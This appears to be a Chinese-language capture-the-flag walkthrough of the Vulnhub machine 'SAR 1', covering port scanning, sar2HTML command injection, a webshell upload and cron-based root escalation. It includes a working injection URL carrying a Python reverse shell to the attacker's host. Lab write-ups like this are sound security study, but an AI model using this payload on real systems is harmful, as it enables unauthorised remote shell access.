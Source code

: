 ```yaml
---

title: Vulnhub	425 SAR 1
date: 2020-02-15
---
```


考点：文件上传、命令执行、定时任务

靶机链接：<https://www.vulnhub.com/entry/sar-1,425/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SAR        | 10.0.2.12 |



## 初步打点

### 端口扫描

```bash
$ export $tip=10.0.2.12
$ sudo nmap -v -A -p- $tip
Scanning 10.0.2.12 [65535 ports]
Discovered open port 80/tcp on 10.0.2.12
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```



### WEB测试

看来要硬钢web应用了

![1](https://static.iihack.com/vulnhub/425/1.PNG)

查看phpinfo

![2](https://static.iihack.com/vulnhub/425/2.PNG)

查看robots.txt

![3](https://static.iihack.com/vulnhub/425/3.PNG)

尝试访问sar2HTML作为二级目录

![4](https://static.iihack.com/vulnhub/425/4.PNG)





### 漏洞发现

搜一下sar2ascii.tar发现

https://www.exploit-db.com/exploits/47204 

## 获得权限

### 靶机测试

#### 思路一 命令执行

按照https://www.exploit-db.com/exploits/47204 执行命令

![5](https://static.iihack.com/vulnhub/425/5.PNG)

antsword连接成功

![6](https://static.iihack.com/vulnhub/425/6.PNG)

使用python直接反弹端口失败了，可以替换`python3 python3.5 python3.6 python3.87 python3.8 python3.9`等等，例如这台靶机使用`python3`成功反弹

```http
http://10.0.2.12/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### 思路二 文件上传

另外可以点击new直接上传webshell，对应目录是`/sarDATA/uPLOAD/`

```http
http://10.0.2.12/sar2HTML/sarDATA/uPLOAD/2.php
```

antsword连接成功

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍发现定时任务

![7](https://static.iihack.com/vulnhub/425/7.PNG)

### 定时任务

修改定时任务的文件，每隔五分钟执行

![8](https://static.iihack.com/vulnhub/425/8.PNG)

静静等待，获得root权限shell

![9](https://static.iihack.com/vulnhub/425/9.PNG)





